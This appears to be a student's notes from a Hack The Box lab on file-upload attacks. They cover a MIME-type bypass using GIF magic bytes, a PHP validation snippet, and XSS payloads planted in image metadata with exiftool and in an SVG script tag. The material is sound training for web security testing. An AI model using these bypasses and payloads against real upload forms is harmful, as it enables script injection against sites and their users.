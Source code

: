 **Example:**

```shell
pradyun2005@htb[/htb]$ echo "this is a text file" > text.jpg 
pradyun2005@htb[/htb]$ file text.jpg 
text.jpg: ASCII text
```

```shell
pradyun2005@htb[/htb]$ echo "GIF8" > text.jpg 
pradyun2005@htb[/htb]$file text.jpg
text.jpg: GIF image data
```

**Backend Code:**

```php
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```




# Limited File Uploads

-  weak filters can be exploited to upload arbitrary files
- secure filters that may not be exploitable using above
- dealing with a limited (i.e., non-arbitrary) file upload form

##### XSS
- web applications that display an image's metadata after its upload

```shell
pradyun2005@htb[/htb]$ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
pradyun2005@htb[/htb]$ exiftool HTB.jpg
...SNIP...
Comment                         :  "><img src=1 onerror=alert(window.origin)>
```

- if we change mime type to `text/html`, some web applications may show it as an HTML document => trigger xss


**Viz SVG images**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
